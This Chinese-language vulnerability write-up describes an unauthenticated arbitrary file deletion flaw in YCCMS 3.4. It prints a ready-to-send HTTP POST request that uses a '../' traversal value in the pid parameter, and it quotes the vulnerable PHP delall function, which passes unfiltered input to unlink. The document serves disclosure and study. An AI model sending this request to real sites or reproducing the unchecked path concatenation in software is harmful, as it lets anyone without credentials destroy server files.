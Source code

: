 # YCCMS 3.4 任意文件删除

## 一、漏洞简介

## 二、漏洞影响

## YCCMS 3.4

三、复现过程

```bash
POST /admin/?a=pic&m=delall HTTP/1.1
Host: www.baidu.com:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 89
Origin: http://127.0.0.1:8082
Connection: close
Referer: http://127.0.0.1:8082/admin/?a=pic
Upgrade-Insecure-Requests: 1

pid%5B0%5D=../1.txt&chkall=on&send=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87t

```

只需要更改pid[0]即可在无登录条件下任意删除文件，删除根目录下的1.txt

![3.png](images/2020_05_26/3158d506d0e342c687a39bea7b1e3382.png)

已经删除成功了

![4.png](images/2020_05_26/9d0a0369db7f4f71b9f16f6e350e4a81.png)

其实这还是犯了一个最容易犯的错误，没有对传进来的路径进行过滤就拼接了目录，导致了任意文件删除漏洞的产生
根据url定位到相关函数位置,位于/controller/PicAction.class.php

```php
public function delall(){
        if(isset($_POST['send'])){
            if(validate::isNullString($_POST['pid'])) tool::layer_alert('没有选择任何图片!','?a=pic',7);
            $_fileDir=ROOT_PATH.'/uploads/';
            foreach($_POST['pid'] as $_value){
                $_filePath=$_fileDir.$_value;
                if(!unlink($_filePath)){
                    tool::layer_alert('图片删除失败,请设权限为777!','?a=pic',7);
                }else{
                    header('Location:?a=pic');
                }
            }

        }

    }

```

对 pid传进来的值并没有进行过滤就进行了了路径的拼接，导致了路径穿越漏洞，触发任意文件删除漏洞

## 参考链接

> https://xz.aliyun.com/t/7748#toc-4

